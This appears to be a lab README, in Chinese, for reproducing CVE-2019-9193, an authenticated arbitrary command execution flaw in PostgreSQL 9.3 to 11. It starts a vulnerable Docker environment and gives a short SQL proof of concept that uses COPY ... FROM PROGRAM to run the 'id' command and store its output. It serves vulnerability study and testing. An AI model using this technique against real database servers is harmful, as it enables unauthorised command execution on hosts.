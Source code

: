 # PostgreSQL 高权限命令执行漏洞（CVE-2019–9193）

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

参考链接：

- https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## 漏洞环境

启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，将开启Postgres默认的5432端口。

## 漏洞复现

首先连接到postgres中，并执行参考链接中的POC：

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

`FROM PROGRAM`语句将执行命令id并将结果保存在cmd_exec表中：

![](1.png)